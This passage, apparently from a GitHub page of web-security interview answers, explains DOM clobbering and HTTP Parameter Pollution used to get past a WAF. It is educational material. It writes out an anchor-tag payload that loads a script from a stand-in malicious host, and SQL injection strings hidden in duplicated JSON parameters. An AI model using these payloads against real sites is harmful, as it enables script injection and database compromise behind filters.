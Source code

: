 We can exploit this by making two anchor tags with the same id :
`<a id=someObject><a id=someObject name=url href=//malicious-website.com/evil.js>`
The DOM will now add them to DOM collection, where the `name` attribute is used on the LAST anchor tag, leading it to the external script.
<sub>source: https://portswigger.net/web-security/dom-based/dom-clobbering</sub>

I need to admit that I lack knowledge in this advanced stuff, but I can definitely recommend this wiki : https://domclob.xyz/domc_wiki/index, which only focuses on DOM clobbering.

Also https://tib3rius.com/dom/ of course :P


## 9. Describe how HTTP Parameter Pollution could be used to bypass a Web Application Firewall.

HTTP Parameter Pollution is an interesting attack, where we basically re-use a parameter to make unexpected results. Exploitation varies from framework/tech used, let's have a look at examples :

<img src="https://github.com/x1trap/websec-answers/assets/81029708/9554c231-d496-4de8-b6d4-c7e66ed8e3dc">

If you want to learn more about HPP, I suggest to watch a video by PwnFunction : 
https://www.youtube.com/watch?v=QVZBl8yxVX0 - Really nice video.


This scope is about bypassing WAF, so let's look at one of the oldest and deadliest vulnerability : **SQL injection**.

Suppose we have a query, like this : 

```http
POST /hacker-check HTTP/1.1
Host: freeoscp.net
....
User-Agent: Mozzila 5.0/blhalbahj
Content-Type: application/json
Content-Length: idk

{
    "hacker" : "hackerman",
    "leet" : "unfortunately no"
}

```

Now let's say we are going to inject a malicious query, like : 
```json
{
    "hacker" : "hackerman",
    "leet" : "unfortunately no' and 1=1 -- -"
}
```
Sounds cool huh? Well too bad the WAF blocks it. This is when the HPP comes in. We can simply duplicate and see the result : 
```json
{
    "hacker" : "hackerman",
    "leet" : "unfortunately no' and 1=1 -- -",
    "leet" : "unfortunately no"
}
```
or :
```json
{
    "hacker" : "hackerman",
    "leet" : "unfortunately no",
    "leet" : "unfortunately no' and 1=1 -- -"
}
```
